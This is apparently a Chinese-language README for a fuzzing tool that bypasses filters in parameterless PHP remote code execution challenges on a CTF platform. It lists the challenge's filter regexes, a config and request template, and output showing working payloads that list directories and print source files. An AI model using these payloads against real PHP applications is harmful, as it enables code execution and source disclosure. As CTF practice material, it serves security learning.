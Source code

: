 ### 步骤1：设置过滤条件 (`过滤条件.txt`)

```php
if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp']))
if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp']))
if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp']))
```

### 步骤2：生成有效Payload

```bash
php filter.php
```

输出：`payload_202509141845.txt`

### 步骤3：准备请求文件 (`request.txt`)

```http
GET /?exp=123 HTTP/1.1
Host: fd75f2a1-ccbf-4d75-a01d-5b530c12da71.node5.buuoj.cn:81
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

### 步骤4：配置`config.json`

```json
{
  "key_words": [
    "flag{",
    "ctf{"
  ],
  "http_method": "GET",
  "param": "exp",
  "payload_dir": "./payload_202509141845.txt",
  "Request_Packet_dir": "./request.txt"
}
```

### 步骤5：执行Fuzz攻击

```bash
python .\fuzz_Parameterless_RCE.py .\config.json
```

输出：

```
==================================================
处理非随机Payloads
==================================================

Payload: print_r(scandir(current(localeconv())));
URL: http://13fe76f2-b104-49db-9997-ec4c3d878d23.node5.buuoj.cn:81/?exp=print_r%28scandir%28current%28localeconv%28%29%29%29%29%3B
    状态: 200
    大小: 117字节

Payload: show_source(next(array_reverse(scandir(pos(localeconv())))));
URL: http://13fe76f2-b104-49db-9997-ec4c3d878d23.node5.buuoj.cn:81/?exp=show_source%28next%28array_reverse%28scandir%28pos%28localeconv%28%29%29%29%29%29%29%3B
```